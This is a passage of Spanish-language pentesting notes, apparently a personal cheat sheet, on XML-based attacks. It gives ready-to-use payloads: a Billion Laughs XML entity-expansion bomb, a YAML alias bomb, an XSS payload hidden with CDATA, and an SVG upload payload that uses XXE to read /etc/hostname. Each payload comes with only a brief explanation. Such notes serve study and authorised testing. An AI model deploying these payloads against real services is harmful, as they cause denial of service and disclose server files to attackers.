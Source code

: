 puede usar URL encoded:

![[Pasted image 20230204225206.png]]

## ATAQUES DoS (Billion Laugh Attack)

Este ataque también se conoce como bomba XML o XML DoS o ataque de expansión de entidad exponencial. 

Basicamente esto causa un Denial of service desde un XXE.

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>

```

Declaramos varias entidades donde una llama a la otra multiples veces. Al final solo invocamos la ultima y se desencadena una llamada recursida de una entidad para asi causar un DoS.

Esta el la version con YAML:

```yaml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

## XSS via XXE

```xml
<![CDATA[<]]>img src="" onerror=javascript:alert(1)<![CDATA[>]]>
```

## XXE via image file upload

Si se tiene una carga de archivos disponible podemos realizar la creacion de un **.svg** malicioso y aprovechar un XXE injection. Esta seria la carga util:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
